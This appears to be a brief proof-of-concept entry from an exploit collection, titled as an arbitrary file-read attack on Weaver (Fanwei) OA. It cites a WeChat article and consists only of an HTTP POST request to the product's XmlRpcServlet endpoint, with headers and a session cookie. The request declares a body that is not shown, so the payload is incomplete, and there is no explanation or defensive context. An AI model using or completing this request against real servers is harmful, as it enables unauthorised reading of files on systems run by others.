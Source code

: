 # weaver_xmlrpcservlet_fileread
from: https://mp.weixin.qq.com/s/BKmS_G3zugqaqjkZFtqLzg
```
POST /weaver/org.apache.xmlrpc.webserver.XmlRpcServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: testBanCookie=test; JSESSIONID=abcWZlxfDe-0l8aKD0AYy
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
```
